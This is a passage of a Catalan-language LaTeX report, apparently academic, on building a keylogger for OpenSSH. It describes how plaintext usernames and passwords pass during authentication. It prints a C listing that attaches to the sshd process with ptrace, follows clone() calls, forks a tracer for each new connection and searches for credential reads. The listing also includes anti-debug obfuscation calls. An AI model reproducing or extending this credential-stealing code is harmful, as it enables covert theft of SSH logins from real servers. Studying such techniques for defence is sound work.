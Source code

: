 Com és evident, per tal de poder desenvolupar el keylogger per l'Openssh, va caldre un gran estudi del 
comportament d'aquest software per ser capaços de detectar com i quan es transfereixen les dades d'usuari i
password. \\
En aquest anàlisis, ens varem donar compte que les dades en clar utilitzades durant l'autenticació, eren
transferides utilitzant un format en concret que és el què aquesta funció comproba. El format en qüestió
és TAG + LONGITUD + DADES on les dades és un string. Tenint en compte que un password serà normalment més
curt que 255 caràcters, i que la longitud està expressada en 4 bytes, aquesta funció comproba que el format
es compleix. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
ptrace(PTRACE_SYSCALL, pid, @PYaX[NULL], @PYaX[NULL]);
exitPid @PYbe[=] wait(@PYbe[&]status);

antidebug_obfuscate_analysis(@PYag[3]);
@PYay[if] (WIFSTOPPED(status)) {
    @PYay[if] (WSTOPSIG(status) @PYbe[=]@PYbe[=] SIGCHLD) {
        ptrace(PTRACE_CONT, pid, @PYag[0], SIGCHLD);
        kill(pid, SIGSTOP);
    } @PYay[else] 
        @PYay[if] (WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGTRAP @PYbe[&]@PYbe[&]  WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGSTOP) {
        ptrace(PTRACE_CONT, pid, @PYag[0], WSTOPSIG(status));
        debug(@PYaB["]@PYaB[Acabant procés pare %d (%d)]@PYao[\n]@PYaB["], pid, WSTOPSIG(status));
        @PYay[break];
    }
    @PYay[else] {
        orig_eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] ORIG_EAX, @PYaX[NULL]);

        antidebug_obfuscate_analysis(@PYag[4]);
        @PYay[switch] (orig_eax) {
            @PYay[case] __NR_clone:
                @PYay[if](insyscall @PYbe[=]@PYbe[=] @PYag[0]) {
                    debug(@PYaB["]@PYaB[fork]@PYao[\n]@PYaB["]);
                    insyscall @PYbe[=] @PYag[1];
                } @PYay[else] {
                    insyscall @PYbe[=] @PYag[0];
                    eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] EAX, @PYaX[NULL]);
                    @PYay[if](@PYbe[!]fork()) {
                        lookForReads(eax);
                    }
\end{Verbatim}
    \caption{keylogger.c::main()}
    \label{fig:keylogger_main}
\end{figure}

En la figura \ref{fig:keylogger_main} podem veure com un cop ja estem attachats al procés principal del 
Openssh, anem seguin les diferents crides a sistema per trobar en aquest cas un clone(). En el moment
en que es retorni de la crida clone(), capturem el valor del registre eax que correspon al pid del procés
fill o 0 en cas de ser el propi fill. Quan en el pare obtenim el pid del fill acabat de crear, saltem a la 
funció lookForReads() tot passant-li el nou pid a seguir. En aquest funció, es crearà un nou procés del 
nostre keylogger, que segurà exclusivament aquest nou procés que acaba de crear l'Openssh. En aquesta nova
connexió, ja serà on buscarem les dades que ens interessen. \\

